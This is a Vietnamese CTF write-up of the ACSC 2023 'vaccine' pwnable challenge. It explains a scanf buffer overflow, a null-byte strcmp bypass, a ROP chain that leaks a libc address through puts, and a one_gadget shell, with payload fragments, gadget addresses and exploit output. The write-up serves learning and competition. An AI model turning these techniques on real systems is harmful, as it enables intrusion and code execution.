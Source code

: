 > From phis1Ng_ with luv
# ACSC 2023 : vaccine - warmup
**Category:** Pwnable
- Link challenge : [vaccine](https://github.com/w1n-gl0ry/CTF/blob/b65dfe3934341213d459b63d3bd81b0a0453f720/2023/ACSC_2023/vaccine/vaccine)


> nc vaccine.chal.ctf.acsc.asia 1337

Bên lề: Đây là Writeup đầu tay trong năm 2023 của mình, nên là có sai sót gì mong mọi người thông cảm nhé :> 



## Write up

# 1. Tìm lỗi:

Đầu tiên, mình dùng lệnh `file` để xem trong file thực thi có gì:
```
vaccine: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a158b3c9f204dc1fdf47fefdac488b0da10fc5b0, for GNU/Linux 3.2.0, not stripped
```
Nah, đây à 1 file executable `64 bit` không bị [stripped](https://stackoverflow.com/questions/4698299/set-breakpoint-in-an-stripped-elf-executable) (stripped là gì thì bấm vào để tham khảo thêm nhé), nên ta có thể dễ dàng tìm kiếm các functions trong `IDA` cũng như `gdb`

Như thường lệ của một người chơi Pwn, tải file về và thả vào `IDA` thôi nào !

Nhìn vào hàm main bên dưới:

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/449dc437169f924248351d62c2212c896aa0190d/2023/ACSC_2023/vaccine/image/vaccine.png)

Ta thấy, chương trình tạo mảng s2 sau đó bắt ta nhập vào thông qua hàm `scanf()`, nhìn sơ ta dễ thấy hàm `scanf()` không chỉ định độ dài nhập vào nên xuất hiện lỗ hổng `buffer overflow`.

Mình tiến hành kiểm tra các mitigations của file thực thi để xem có khai thác được gì không, dùng lệnh `checksec` để kiểm tra:

```
[*] '/home/w1n_gl0ry/CTF/Pwnable/ACSC2023/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Hmm, ta thấy chỉ bits `NX` được bật, có nghĩa là chúng ta không thể exploit bằng cách inject shellcode được, nên ta tiếp tục phân tích hàm main,

![vaccine.png](https://github.com/w1n-gl0ry/CTF/blob/fdd8a08e8b941ed321e7e27b6dbedd0bd22b0b75/2023/ACSC_2023/vaccine/image/Screenshot%202023-03-07%20135509.png)

Chương trình kiểm tra toàn bộ biến s2 với các kí tự ASCII `65`, `67`, `71`, `84` tương ứng với các kí tự `A`, `C`, `G`, `T` mà chương trình gọi là `DNA codes`. Nếu khác kí tự nào thì chương trình sẽ thoát ngay lập tức.

Ngược lại, lúc s2 thõa mãn thì chương trình sẽ tiếp tục kiểm tra với mảng s cho trước gồm các kí tự trong file `RNA.txt`. Rõ ràng, ta không thể đoán được nên phải tìm cách bypass đoạn này. Khi tất cả đều thõa mãn thì chúng ta sẽ nhận được reward (maybe là flag :>)

Đến đây, chúng ta chỉ cần bypass các kí tự `DNA codes` và hàm `strcmp(s, s2)`, từ đó ta có thể ghi đè `return addr` bằng payload mà ta mong muốn.

# 2. Ý tưởng:

Làm sao ta có thể bypass được hàm `strcmp()` trong khi ta không biết trong mảng s có gì ?

-> Mấu chốt chính là hàm `scanf()`, dùng lệnh `man 3 scanf` để xem hàm `scanf()` làm gì:
Hàm `scanf()` vẫn sẽ đọc chuỗi cho đến khi gặp kí tự newlines, nhưng kí tự null bytes thì nó vẫn đọc và lúc kết thúc chuỗi hàm sẽ tự động thêm null bytes vào cuối xâu. Ta lợi dụng điều này để ghi đè qua mảng s một kí tự như s2 để bypass được hàm `strcmp()` . Trong khi đó, hàm `strlen()` vẫn thõa mãn. Tuyệt !

Khi ta đã thõa mãn các điều kiện, việc cuối cùng là ghi đè `return addr` về payload mà chúng ta mong muốn.


# 3. Exploit:

[+] Payload 1: Bypass kí tự DNA codes và hàm `strcmp()` :
-> Ta sẽ điền kí tự `A` vào s2 và lấp đầy các kí tự null cho tới mảng s rồi điền kí tiếp tục tự `A`, hàm sẽ tự động null bytes vào cuối xâu nên không cần quan tâm đến mảng s nữa, việc còn lại là lấp đầy `buf` cho tới `ret addr`

Cách 2: Ta sẽ lấp đầy `buf` cho tới `ret addr` bằng các kí tự null -> cũng thõa mãn.

`payload = (b'A' + (offset s2 -> s) * b'\x00' + b'A').ljust(256, b'\x00')`
hoặc
`payload = payload.ljust(256, b'\x00')`

```
[+] Starting local process './vaccine': pid 15939
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '15939', '-x', '/tmp/pwn7i3d52cm.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
Give me vaccine: Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Vậy là đã thành công bước đầu, ta tiếp tục tính payload thứ 2,

[+] Payload 2: Tìm các gadgets phù hợp cho việc leak địa chỉ của hàm nào đó trong thư viện, rồi sau đó tính địa chỉ `libc_base`:

Ta dùng lệnh `ROPgadget --binary vaccine | grep "ret" ` :

```
0x0000000000401443 : pop rdi ; ret
0x0000000000401441 : pop rsi ; pop r15 ; ret
0x000000000040101a : ret
```
-> Có thể những gadgets này sẽ giúp ích trong việc exploit của chúng ta.

```
pop_rdi_ret = 0x401443
pop_rsi_ret = 0x401441
ret = 0x40101a
```
Ta lợi dụng hàm puts để in ra địa chỉ hàm `fopen()` trong thư viện, `payload` như sau:

`payload += <pop_rdi_ret> + <địa chỉ hàm fopen_got> + <địa chỉ hàm puts> + <địa chỉ hàm main>`

Ta quay lại hàm main để địa chỉ hàm `fopen()` được in ra.

```
[+] Starting local process './vaccine': pid 16429
[*] running in new terminal: ['/usr/bin/gdb', '-q', './vaccine', '16429', '-x', '/tmp/pwn6jt6gfhv.gdb']
[+] Waiting for debugger: Done
got_leak: 0x7f0377c7f6b0
libc_base:  0x7f0377c00000
[*] Switching to interactive mode
Congrats! You give the correct vaccine!
Here is your reward: REDACTED
```
Thành công lấy leak được địa chỉ và tính được `libc_base`, việc còn lại của ta là thực thi hàm `system('/bin/sh')` !

[+] Payload 3:
Sau khi có địa chỉ hàm `fopen()` ta sẽ tính được địa chỉ `libc_base` , ta tính địa chỉ hàm `system` và chuỗi `/bin/sh` để chiếm được shell.

Tới đây ta dùng one_gadgets để mọi việc dễ dàng hơn (thật ra là mình đã thử cách khác nhưng không thành, có vẻ như chương trình đã cố tình chặn hàm `system()` :>)


# 4. Chiếm cờ:

Đây là toàn bộ file exploit của mình: [asd.py](https://github.com/w1n-gl0ry/CTF/blob/282b01d2218753947b6b7ae75d8f3fc29d1daf3e/2023/ACSC_2023/vaccine/asd.py)

Chúc mọi người 1 tuần tốt lành !!




